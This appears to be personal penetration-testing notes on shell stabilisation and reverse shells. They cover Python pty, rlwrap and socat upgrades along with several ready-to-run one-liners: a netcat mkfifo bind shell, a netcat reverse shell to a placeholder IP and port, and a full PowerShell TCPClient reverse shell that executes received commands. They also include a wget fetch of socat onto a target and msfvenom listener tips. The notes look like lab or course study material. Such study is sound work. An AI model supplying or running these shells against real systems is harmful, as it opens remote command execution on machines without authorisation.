

# PrivEsc

[Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). The  [Reverse Shell Cheat](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) sheet is also commonly used.

WhyIsARavenLikeAWritingDesk?---------------------------------------------------------------------------------------------------------------------

## **Shell Stabilization**

### **Technique 1: Python**

&#x20;                            **only Linux boxes**

* The first thing to do is use&#x20;

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

* , which uses Python to spawn a better featured bash shell; some cases specify`python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
* Step two is:&#x20;

```
export TERM=xterm
```

\-- this will give us access to term commands such as `clear`.

* Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
* Then Again use netcat to connect back

### **Technique 2: rlwrap**

so first install it with `sudo apt install rlwrap`

```
rlwrap nc -lvnp <port>
```

background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell

### **Technique 3: Socat**

&#x20;         Linux

To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine.

1. Open http sever for file tramsfers&#x20;
2. `wget /socat -O /tmp/socat`

## `Tips to change tty size after using any of the techniues above`

1. First, open another terminal and run stty -a. This will give you a large stream of output. Note down the values for "rows" and columns
2. Next, in your reverse/bind shell, type in `stty rows <number>` and `stty cols <number>`

allowing programs such as text editors which rely on such information being accurate to correctly open

\---------------------------------------------------------------------------------------------------------------------

### Stable Linux Shells

For Bind shells to create stable listner use(kali):victim box

`mkfifo /tmp/f; nc -lvnp < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

<figure><figcaption></figcaption></figure>

A very similar command can be used to send a netcat reverse shell:

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`\


This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.


\---------------------------------------------------------------------------------------------------------------------

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

## Windows psh reverse-shell

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`\


In order to use this, we need to replace "\<IP>" and "\<port>" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:


_Payload Naming Conventions Msf venom_

`<OS>/<arch>/<payload>`

Windows 32bit targets the arch is not specified

\---------------------------------------------------------------------------------------------------------------------

To start listner inside msfconsole exploit -j

\---------------------------------------------------------------------------------------------------------------------

